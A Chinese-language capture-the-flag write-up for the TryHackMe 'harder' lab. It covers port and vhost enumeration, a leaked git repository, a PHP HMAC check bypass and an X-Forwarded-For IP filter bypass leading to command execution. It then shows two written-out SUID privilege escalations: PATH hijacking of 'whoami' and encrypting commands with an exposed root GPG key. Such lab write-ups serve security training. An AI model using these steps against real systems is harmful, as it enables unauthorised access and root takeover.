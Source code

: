 ```yaml
---
sidebar_position: 127
tags: [Easy, Linux, 信息泄露, 命令注入, SUID, PATH]
title: "harder"
description: "harder"
sidebar_label: "harder"
slug: /tryhackme/127
---
```


# harder

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-143914-10.png)

# 端口扫描

```bash
root@ip-10-10-43-198:~/harder# nmap -sTCV -p 2,22,80 --min-rate 1000 10.10.247.234

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-30 11:25 BST
Nmap scan report for ip-10-10-247-234.eu-west-1.compute.internal (10.10.247.234)
Host is up (0.00015s latency).

PORT   STATE SERVICE VERSION
2/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f8:8c:1e:07:1d:f3:de:8a:01:f1:50:51:e4:e6:00:fe (RSA)
|   256 e6:5d:ea:6c:83:86:20:de:f0:f0:3a:1e:5f:7d:47:b5 (ECDSA)
|_  256 e9:ef:d3:78:db:9c:47:20:7e:62:82:9d:8f:6f:45:6a (EdDSA)
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Error
MAC Address: 02:CE:A2:22:F1:77 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# 80

进行目录扫描, 扫描完成后. 并没有什么从中得到什么内容,

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-143914-7.png)

我查看了 HTTP 的 Header 发现了一个域

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-143914-2.png)

所以我同时进行了目录遍历以及子域扫描的操作, 从下面的输出中我们可以看到

- pwd.harder.local : 存在 git 信息泄露
- shell.harder.local : 新发现的域, 看名字估计是这里为突破口, 但是需要登陆, 还是需要进行 git 获取一些密码

```bash
root@ip-10-10-43-198:~/harder/LFI-phpinfo-RCE# gobuster vhost -u http://harder.local/ -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:          http://harder.local/
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.0.1
[+] Timeout:      10s
===============================================================
2023/09/30 11:58:32 Starting gobuster
===============================================================
Found: shell.harder.local (Status: 200) [Size: 19912]
Found: pwd.harder.local (Status: 200) [Size: 19926]

root@ip-10-10-43-198:~/harder# feroxbuster -u http://pwd.harder.local/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html

200      GET       23l      457w    19926c http://pwd.harder.local/index.php
200      GET       23l      457w    19926c http://pwd.harder.local/

root@ip-10-10-43-198:~/harder# feroxbuster -u http://pwd.harder.local/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -x php,txt,html

200      GET       23l      457w    19926c http://pwd.harder.local/index.php
200      GET       23l      457w    19926c http://pwd.harder.local/
200      GET        1l        2w       23c http://pwd.harder.local/.git/HEAD
200      GET        0l        0w        0c http://pwd.harder.local/auth.php
200      GET        0l        0w        0c http://pwd.harder.local/secret.php

root@ip-10-10-43-198:~/harder# feroxbuster -u http://shell.harder.local/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -x php,txt,html

200      GET       23l      457w    19912c http://shell.harder.local/index.php
200      GET       23l      457w    19912c http://shell.harder.local/
200      GET        0l        0w        0c http://shell.harder.local/auth.php
200      GET        1l       13w       73c http://shell.harder.local/ip.php
301      GET        7l       11w      169c http://shell.harder.local/vendor => http://shell.harder.local:8080/vendor/
```

所以我使用工具来将 git 内容拉取到本地进行查看

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-143914.png)

从上面的各个输出中我们可以从中查看到一个 credentials.php 但是这个文件并不存在所以我们需要进行一些操作来获取这个文件内容, 基于此我们进行一系列的分析

漏洞所在点位于其中的 hmac.php 文件中, 我们可以通过 [Blog](https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up/) 进行操作

```php
<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```

之后我们就可以得到一个账号

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-143914-1.png)





使用这个账号来访问我们新发现的子域, 并使用其进行登陆, 但是页面显示只允许 10.10.10.x 的IP 访问, 此时我添加了 X-Forwarded-For 绕过了监测最终得到一个命令执行页面

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-144824.png)

# Shell

## evs

我通过查找属于 www 用户的文件发现一个特殊的备份文件, 此时查看这个文件从而获取到用户 evs 的密码

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-144847.png)



![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-144853.png)

使用其进行登陆

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-144902.png)



## evs —> root

查找 SUID 程序发现一个特殊的程序

```bash
harder:/$ find / -user root -perm -4000 -print 2>/dev/null
/usr/local/bin/execute-crypted
harder:/$ /usr/local/bin/execute-crypted
[*] Current User: root
[-] This program runs only commands which are encypted for root@harder.local using gpg.
[-] Create a file like this: echo -n whoami > command
[-] Encrypt the file and run the command: execute-crypted command.gpg
```

接着我使用 strings 分析了这个文件, 结果发现其中存在一个 sh 脚本

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-144918.png)

此时进一步查看我发现这个文件就是我们上面执行的输出并且存在 Linux PATH 利用

```bash
harder:/tmp$ ls -al /usr/local/bin/run-crypted.sh
-rwxr-x---    1 root     evs            412 Jul  7  2020 /usr/local/bin/run-crypted.sh
harder:/tmp$ cat /usr/local/bin/run-crypted.sh
#!/bin/sh

if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi
```

此时我们就可以基于 whoami 进行 PATH 的利用

```bash
harder:/tmp$ cat << EOF > whoami
> /bin/sh
> EOF
harder:/tmp$  export PATH=$PWD:$PATH
harder:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
harder:/tmp$ /usr/local/bin/execute-crypted 
[*] Current User: harder:/tmp# id
uid=0(root) gid=1000(evs) groups=1000(evs)
```

# 扩展

## www

有些人可能很疑惑为什么使用 shell 子域的命令执行无法获取到 shell, 那么如何获取到?只需要像下面这样就可以了

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-144935.png)





## evs —> root (第二种方式)

在上面的输出中我们提到其是通过读取 command.gpg 并经过解密来进行执行命令的, 所以我们只需要获取到 pgp 文件就可以进行操作了

```bash
harder:/tmp$ ls -al /var/backup
total 16
drwxr-x---    1 root     evs           4096 Jul  7  2020 .
drwxr-xr-x    1 root     root          4096 Jul  7  2020 ..
-rwxr-x---    1 root     evs            641 Jul  7  2020 root@harder.local.pub # 这就是公钥, 我们可以使用此进行加密

harder:/tmp$ cat command
id
harder:/tmp$ gpg --import /var/backup/root@harder.local.pub
harder:/tmp$ gpg --encrypt --recipient root@harder.local -o /tmp/command.gpg /tmp/command
harder:/tmp$ ls -al /tmp/command.gpg 
-rw-r--r--    1 evs      evs            167 Sep 30 13:33 /tmp/command.gpg
harder:/tmp$ /usr/local/bin/execute-crypted ./command.gpg 
gpg: encrypted with 256-bit ECDH key, ID 6C1C04522C049868, created 2020-07-07
      "Administrator <root@harder.local>"
uid=0(root) gid=1000(evs) groups=1000(evs)
```

